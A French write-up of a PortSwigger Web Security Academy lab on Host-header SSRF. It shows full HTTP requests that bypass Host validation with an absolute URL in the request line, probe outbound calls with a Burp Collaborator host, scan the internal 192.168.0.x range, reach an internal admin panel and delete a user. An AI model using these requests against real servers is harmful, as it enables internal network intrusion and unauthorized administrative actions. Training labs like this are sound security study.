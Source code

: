 # Lab

https://portswigger.net/web-security/host-header/exploiting/lab-host-header-ssrf-via-flawed-request-parsing

## Solution

Si on change le header `Host` on a une erreur.

```http
HTTP/2 403 Forbidden
Content-Type: text/html; charset=utf-8
Content-Length: 109

<html><head><title>Client Error: Forbidden</title></head><body><h1>Client Error: Forbidden</h1></body></html>
```

On peut essayer des contournements comme envoyer l'host dans le GET directement.

```http
GET https://0ae60064035fc21e80dc807000b30058.web-security-academy.net/ HTTP/2
Host: 0ae60064035fc21e80dc807000b30058.web-security-academy.net
Cookie: session=H9Q1NaJFF4OJTPajUDOpE9daZq3rW00A; _lab=46%7cMCwCFC6WD8xeSbgbnDRp7iIdz9KGPM4FAhQqI%2bYKOOx%2bsTPCm%2bzz2GuQREPXyD5qMvZ8oRjA4NQWnBRuYnT8Q7%2bbFUKaEftsJL%2fb%2baWhiBDJmHwP0kckqoNFkjomoYy9%2bgOJ0Q61TcnL3YW3Xl0OUWHaWq4Ed1PrppHI2Ku%2fgvuMnR8%3d
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: https://0ae60064035fc21e80dc807000b30058.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
```

La requête est acceptée, si on change le header `Host` on a une erreur de timeout.

```http
GET https://0ae60064035fc21e80dc807000b30058.web-security-academy.net/ HTTP/2
Host: toto
Cookie: session=H9Q1NaJFF4OJTPajUDOpE9daZq3rW00A; _lab=46%7cMCwCFC6WD8xeSbgbnDRp7iIdz9KGPM4FAhQqI%2bYKOOx%2bsTPCm%2bzz2GuQREPXyD5qMvZ8oRjA4NQWnBRuYnT8Q7%2bbFUKaEftsJL%2fb%2baWhiBDJmHwP0kckqoNFkjomoYy9%2bgOJ0Q61TcnL3YW3Xl0OUWHaWq4Ed1PrppHI2Ku%2fgvuMnR8%3d
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: https://0ae60064035fc21e80dc807000b30058.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
```

```http
HTTP/2 504 Gateway Timeout
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 144

<html><head><title>Server Error: Gateway Timeout</title></head><body><h1>Server Error: Gateway Timeout (3) connecting to toto</h1></body></html>
```

On peut essayer de renseigner une URL de Burp Collaborator dans le header `Host`.

```http
GET https://0ae60064035fc21e80dc807000b30058.web-security-academy.net/ HTTP/2
Host: 503j66xci8qe4j9perlt9qk3full9cx1.oastify.com
Cookie: session=H9Q1NaJFF4OJTPajUDOpE9daZq3rW00A; _lab=46%7cMCwCFC6WD8xeSbgbnDRp7iIdz9KGPM4FAhQqI%2bYKOOx%2bsTPCm%2bzz2GuQREPXyD5qMvZ8oRjA4NQWnBRuYnT8Q7%2bbFUKaEftsJL%2fb%2baWhiBDJmHwP0kckqoNFkjomoYy9%2bgOJ0Q61TcnL3YW3Xl0OUWHaWq4Ed1PrppHI2Ku%2fgvuMnR8%3d
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: https://0ae60064035fc21e80dc807000b30058.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
```

Et on voit qu'on reçoit des requêtes de la part du serveur.

Ca veut dire que le serveur fait des requêtes à l'URL qu'on lui a donné, ce qui nous permet de scanner le réseau interne avec Burp Intruder.

```http
GET https://0ae60064035fc21e80dc807000b30058.web-security-academy.net/ HTTP/2
Host: 192.168.0.§1§
Cookie: session=H9Q1NaJFF4OJTPajUDOpE9daZq3rW00A; _lab=46%7cMCwCFC6WD8xeSbgbnDRp7iIdz9KGPM4FAhQqI%2bYKOOx%2bsTPCm%2bzz2GuQREPXyD5qMvZ8oRjA4NQWnBRuYnT8Q7%2bbFUKaEftsJL%2fb%2baWhiBDJmHwP0kckqoNFkjomoYy9%2bgOJ0Q61TcnL3YW3Xl0OUWHaWq4Ed1PrppHI2Ku%2fgvuMnR8%3d
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: https://0ae60064035fc21e80dc807000b30058.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
```

On créé une liste de sous-réseaux à scanner de 0 à 255 qui remplacera le `§1§` dans la requête.

Il ne faut pas oublier de décocher le `Update Host header to match target` dans les options de la requête.

Avec ça, on trouve que l'adresse `192.168.0.2` répond avec une redirection vers `/admin`.

```http
HTTP/2 302 Found
Location: /admin
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

On a plus qu'à ajouter `/admin` à la fin de l'URL pour accéder à la page.

```http
GET https://0ae60064035fc21e80dc807000b30058.web-security-academy.net/admin HTTP/2
Host: 192.168.0.2
Cookie: session=H9Q1NaJFF4OJTPajUDOpE9daZq3rW00A; _lab=46%7cMCwCFC6WD8xeSbgbnDRp7iIdz9KGPM4FAhQqI%2bYKOOx%2bsTPCm%2bzz2GuQREPXyD5qMvZ8oRjA4NQWnBRuYnT8Q7%2bbFUKaEftsJL%2fb%2baWhiBDJmHwP0kckqoNFkjomoYy9%2bgOJ0Q61TcnL3YW3Xl0OUWHaWq4Ed1PrppHI2Ku%2fgvuMnR8%3d
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: https://0ae60064035fc21e80dc807000b30058.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
```

Ensuite on utilise le même prinicpe pour supprimer l'utilisateur `carlos`.

```http
POST https://0ae60064035fc21e80dc807000b30058.web-security-academy.net/admin/delete HTTP/2
Host: 192.168.0.2
Cookie: session=H9Q1NaJFF4OJTPajUDOpE9daZq3rW00A; _lab=46%7cMCwCFC6WD8xeSbgbnDRp7iIdz9KGPM4FAhQqI%2bYKOOx%2bsTPCm%2bzz2GuQREPXyD5qMvZ8oRjA4NQWnBRuYnT8Q7%2bbFUKaEftsJL%2fb%2baWhiBDJmHwP0kckqoNFkjomoYy9%2bgOJ0Q61TcnL3YW3Xl0OUWHaWq4Ed1PrppHI2Ku%2fgvuMnR8%3d
Content-Length: 53
Cache-Control: max-age=0
Origin: https://0ae60064035fc21e80dc807000b30058.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: https://0ae60064035fc21e80dc807000b30058.web-security-academy.net/admin
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9

csrf=XvSUyiNBdQiMl79bMBnx4wHX3mHfDdeD&username=carlos
```